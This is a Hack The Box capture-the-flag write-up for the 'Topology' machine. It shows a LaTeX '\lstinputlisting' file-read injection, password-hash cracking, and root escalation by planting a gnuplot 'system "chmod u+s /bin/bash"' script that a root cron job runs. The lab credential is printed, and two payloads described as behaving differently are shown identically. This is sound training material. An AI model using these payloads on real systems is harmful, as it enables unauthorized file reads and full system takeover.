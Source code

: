 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Topology](https://app.hackthebox.com/machines/Topology)

## Enumerate

```console
$ sudo nmap -nv -sCV -Pn $t                                                   
[...]
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service running on port 80:

![](_/htb-topology-20231114-1.png)

There's one active link under "Software projects", the LaTeX Equation Generator. I add the vhost `latex.topology.htb` to `/etc/hosts`.

And here's the linked page, `http://latex.topology.htb/equation.php`:

![](_/htb-topology-20231114-2.png)

The index is open for that URL:

![](_/htb-topology-20231114-3.png)

The `header.tex` file has an interesting include, `listings`, which is [a vector for LFI](https://users.ece.utexas.edu/~garg/dist/listings.pdf)i:

![](_/htb-topology-20231114-4.png)

`$\lstinputlisting{/etc/passwd}$` does _not_ work.

But `$\lstinputlisting{/etc/passwd}$` does:

![](_/htb-topology-20231114-5.png)

The vhost `dev.topology.htb` is protected with basic-http-auth:

![](_/htb-topology-20231114-6.png)

The `stats.topology.htb` page has a dynamically generated stats `png`.

![](_/htb-topology-20231114-7.png)

## Exploit

I'm able to view the `.htpasswd` file at the root of the `dev.topology.htb` vhost:

![](_/htb-topology-20231114-8.png)

Here's the hash from the image above:

```text
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Cracking the hash with `john`:

```console
$ john --wordlist=~/rockyou.txt hash 
[...]
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
Session completed. 
```

The `dev.topology.htb` page looks like a draft page for a nascent software consulting business:

![](_/htb-topology-20231114-9.png)

But the creds are also valid for `ssh` login:

```console
$ ssh vdaisley@$t
[...]

vdaisley@topology:~$ cat user.txt
f6395b[...]
```

## Escalate

The `stats.topology.htb` vhost mentioned above has a `png` file showing the system load average. It appears to be updated frequently, e.g. every minute:

```console
vdaisley@topology:~$ date && ls -l /var/www/stats/files/load.png
Tue 14 Nov 2023 05:29:55 PM EST
-rw-r--r-- 1 www-data www-data 13615 Nov 14 17:29 /var/www/stats/files/load.png
```

I transfer `pspy64` to the target:

```console
$ scp pspy64 vdaisley@$t:/tmp/
vdaisley@10.10.11.217's password: 
pspy64                                                                                                       100% 3032KB 344.4KB/s   00:08    
```

And this gives me what I need:

```console
vdaisley@topology:~$ chmod +x /tmp/pspy64
vdaisley@topology:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/14 17:35:56 CMD: UID=1007  PID=3163   | /tmp/pspy64
[...]
2023/11/14 17:36:01 CMD: UID=0     PID=3172   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3174   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/14 17:36:01 CMD: UID=0     PID=3175   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/14 17:36:01 CMD: UID=0     PID=3177   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3176   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/14 17:36:01 CMD: UID=0     PID=3178   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3182   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3181   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3180   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3179   | netstat -i 
2023/11/14 17:36:01 CMD: UID=0     PID=3186   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3185   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3184   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3183   | uptime 
2023/11/14 17:36:01 CMD: UID=0     PID=3187   | tail -60 /opt/gnuplot/netdata.dat 
2023/11/14 17:36:01 CMD: UID=0     PID=3189   | gnuplot /opt/gnuplot/networkplot.plt 
^CExiting program... (interrupt)
```

So now I know `root` runs this every minute or so:

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

The command accesses files in a writable (though not readable) directory:

```console
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14 07:45 /opt/gnuplot
```

`gnuplot` has a `system` command I can exploit: <http://www.bersch.net/gnuplot-doc/system.html>

Using this approach, I'm able to run `bash` with `euid=0` and access the `root.txt` flag:

```console
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/x.plt
vdaisley@topology:~$ sleep 60 && ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
3a2016[...]
```

## Summary

This machine is an exercise in bypassing a PHP command filter to prevent malicious LaTeX commands, but they forgot at least one: `\lstinputlisting`. This allows retrieving the `/etc/passwd` file, but more practically it allows grabbing an `.htpasswd` file from `/var/www/dev`. With that file, the username and hashed password for the foothold user is easy via `john` and the `rockyou.txt` wordlist.

Privilege escalation is done by writing a `plt` file to `/opt/gnuplot` containing this line:

```sh
system "chmod u+s /bin/bash"
```

A `cron` job runs every minute to generate the stats for `/var/www/stats`, but that `plt` file gets run and makes `bash` run with `setuid` user `root`.
